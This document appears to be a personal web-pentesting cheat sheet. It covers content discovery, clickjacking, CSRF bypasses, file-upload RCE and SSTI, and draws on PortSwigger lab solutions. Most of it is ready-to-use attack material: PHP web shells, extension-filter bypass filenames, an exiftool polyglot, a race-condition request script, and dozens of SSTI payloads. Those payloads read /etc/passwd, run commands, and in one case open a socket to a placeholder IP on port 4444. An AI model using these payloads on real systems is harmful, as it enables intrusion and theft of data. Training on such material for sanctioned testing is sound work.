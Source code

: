 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
	<!DOCTYPE html>
	<html lang="en">
	<head>
	  <meta charset="UTF-8">
	</head>
	<body>
	  <iframe src="https://10x.redoxengine.com/#/organization/8168/development/developer/apiKeys/dd364dd9-7bc3-4e78-aeea-cd400e1ff721/settings" frameborder="0"></iframe>
	</body>
	</html>

# CSRF
## CSRF parameter is not available
---> generate CSRF POC and try

## CSRF parameter available 

-> Change action METHOD (GET OR POST)

-> Remove CSRF parameter
eg. email and CSRF
remove CSRF
now> email

-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
    Make a note of the value of the CSRF token, then drop the request.
2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
    Store the exploit, then click "Deliver to victim" to solve the lab.


->if CSRF key cookies and CSRF token are available

https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

->if header error occure
1) so try remove header
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

2) if header remove not work try changing domain like
refrer: http://google.com
to
http://burpsuit/?google.com
https://portswigger.net/web-security/csrf/lab-referer-validation-broken

# RCE

<?php echo file_get_contents('/home/carlos/secret'); ?>

<?php echo system($_GET['command']); ?>

1) upload file

2) change content-type
Content-Type to image/jpeg

3) Content-Disposition
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
if its work now change 
filename="..%2fexploit.php" in content
if its work access with ..%2fexploit.php

4) Overriding the server configuration
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

5) Obfuscating file extensions
filename="exploit.php%00.jpg"
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension

6) Flawed validation of the file's contents
embeded code in image
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

7) Only jpeg and png allow
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
	
# SSTI Payload
{{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
<%= File.open('/etc/passwd').read %>
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{$smarty.version}
{php}echo `id`;{/php}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
